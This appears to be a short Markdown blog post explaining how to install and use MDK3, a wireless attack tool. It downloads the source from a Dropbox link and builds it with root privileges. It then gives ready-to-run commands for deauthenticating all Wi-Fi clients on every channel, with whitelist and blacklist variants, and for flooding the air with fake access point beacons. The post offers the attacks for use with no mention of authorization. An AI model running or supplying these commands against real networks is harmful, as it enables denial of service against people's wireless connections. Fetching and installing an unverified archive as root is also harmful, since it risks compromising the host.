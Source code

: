 ```yaml
---
layout: post
title: Installation and Basic Usage of MDK3
excerpt: A how-to for the installation and basic usage of mdk3
---
```

###Installation

Use the following commands

```bash
wget https://www.dropbox.com/s/7oytphewrbcxkoz/mdk3-v6.tar.bz2
tar -xjf mdk3-v6.tar.bz2
mv mdk3-v6 mdk3
cd mdk3
sudo make && sudo make install
```
		
###Usage

####Set Wifi Adaptor into Monitor Mode

Use the following commands
	
	sudo iw phy phy0 interface add mon0 type monitor 
	sudo iw dev wlan0 del

####Deauthentication

Deauth all devices on every channel

	sudo mdk3 mon0 d -c 1,2,3,4,5,6,7,8,9,10,11
		
Deauth via whitelist (deauth all devices excluding those on the list)

	sudo mdk3 mon0 d -w /home/username/whitelist.txt -c 1,2,3,4,5,6,7,8,9,10,11

Deauth via blacklist (deauth only devices on the list)

	sudo mdk3 mon0 d -b /home/username/blacklist.txt -c 1,2,3,4,5,6,7,8,9,10,11

###Beacon Flood Mode

Broadcast a random list of fake access points

	sudo mdk3 mon0 b 
		
Broadcast a certain access point by name

	sudo mdk3 mon0 b -n example_network
		
Broadcast a list of access points from a file

	sudo mdk3 mon0 b -f /home/user/example_network_names.txt

For more information use `sudo mdk3 --fullhelp`		

###Set Wifi Card Back to Managed Mode

Use the following commands

	sudo iw phy phy0 interface add wlan0 type managed
	sudo sudo iw dev mon0 del

		